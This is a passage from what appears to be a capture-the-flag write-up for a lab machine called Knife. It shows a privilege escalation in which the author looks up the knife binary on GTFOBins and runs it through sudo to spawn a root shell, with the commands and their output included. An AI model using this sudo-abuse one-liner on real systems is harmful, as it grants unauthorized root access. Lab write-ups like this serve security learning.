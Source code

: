 <br />
Run ls -la on that file.

{% raw %}
```bash
james@knife:/home/james$ ls -la /usr/bin/knife
ls -la /usr/bin/knife
lrwxrwxrwx 1 root root 31 May  7  2021 /usr/bin/knife -> /opt/chef-workstation/bin/knife
```
{% endraw %}

<br />
Run the knife command to see what it does.

{% raw %}
```bash
james@knife:/home/james$ /usr/bin/knife
/usr/bin/knife
ERROR: You need to pass a sub-command (e.g., knife SUB-COMMAND)

Usage: knife sub-command (options)
    -s, --server-url URL             Chef Infra Server URL.
        --chef-zero-host HOST        Host to start Chef Infra Zero on.
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
    -k, --key KEY                    Chef Infra Server API client key.

    <snip>
```
{% endraw %}

<br />
Check the knife on the GTFOBins.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/knife/gtfo.png" title="Check the GTFOBins" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://gtfobins.github.io/gtfobins/knife/">GTFOBins</a>

<br />
Execute the one-liner that was indicate in the bins.

{% raw %}
```bash
james@knife:/$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# whoami
whoami
root
```
{% endraw %}

<br />
Get the root.txt flag.
